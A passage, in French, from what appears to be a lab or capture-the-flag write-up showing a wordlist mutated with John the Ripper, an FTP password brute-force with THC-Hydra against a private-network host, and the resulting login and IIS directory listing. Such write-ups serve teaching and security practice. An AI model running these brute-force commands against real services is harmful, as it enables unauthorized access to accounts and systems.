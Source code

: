 Puis on génère une seconde wordlist basée sur celle-ci en appliquant des mutations via John The Ripper :  

```bash
/opt/jtr/john --rules --wordlist=dico.txt --stdout > candidates.txt
```

On lance une attaque brute-force à l'aide de *THC-Hydra*. Après avoir testé différents logins (*bobby*, *admin*...) on trouve finalement le bon password pour l'utilisateur *bob* :

```bash
$ ./hydra -l bob -P ../candidates.txt -t 1 ftp://192.168.1.11/ 
Hydra v7.6 (c)2013 by van Hauser/THC & David Maciejak - for legal purposes only

Hydra (http://www.thc.org/thc-hydra) starting at 2014-03-25 21:16:08
[DATA] 1 task, 1 server, 835 login tries (l:1/p:835), ~835 tries per task
[DATA] attacking service ftp on port 21
[21][ftp] host: 192.168.1.11   login: bob   password: Matrix
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2014-03-25 21:16:08
```

Attention le serveur FTP gère très mal la surcharge et avec le nombre de threads par défaut de *Hydra* il retournait souvent une erreur 421.  

```plain
> ftp 192.168.1.11
Connected to 192.168.1.11.
220 Microsoft FTP Service
Name (192.168.1.11): bob
331 Password required for bob.
Password: 
230 User bob logged in.
Remote system type is Windows_NT.
ftp> ls
227 Entering Passive Mode (192,168,1,11,4,3).
^C
receive aborted. Waiting for remote to finish abort.
ftp> passive
Passive mode: off; fallback to active mode: off.
ftp> ls -alR
200 PORT command successful.
150 Opening ASCII mode data connection for /bin/ls.
03-25-14  06:56PM       <:DIR>          AdminScripts
03-25-14  06:56PM       <:DIR>          ftproot
03-25-14  06:56PM       <:DIR>          iissamples
03-25-14  06:56PM       <:DIR>          Scripts
03-25-14  06:56PM       <:DIR>          wwwroot

.\AdminScripts:
04-02-07  09:40AM                85813 adsutil.vbs
07-21-01  02:21PM                 4490 chaccess.vbs
07-21-01  02:21PM                 2599 contftp.vbs
07-21-01  02:21PM                 2623 contsrv.vbs
07-21-01  02:21PM                 2596 contweb.vbs
07-21-01  02:21PM                 5017 dispnode.vbs
07-21-01  02:21PM                 2550 disptree.vbs
07-21-01  02:21PM                 6258 findweb.vbs
07-21-01  02:21PM                 7186 mkwebdir.vbs
07-21-01  02:21PM                 2591 pauseftp.vbs
07-21-01  02:21PM                 2615 pausesrv.vbs
07-21-01  02:21PM                 2588 pauseweb.vbs
07-21-01  02:21PM                 2593 startftp.vbs
07-21-01  02:21PM                 2617 startsrv.vbs
07-21-01  02:21PM                 2590 startweb.vbs
07-21-01  02:21PM                 2584 stopftp.vbs
07-21-01  02:21PM                 2608 stopsrv.vbs
```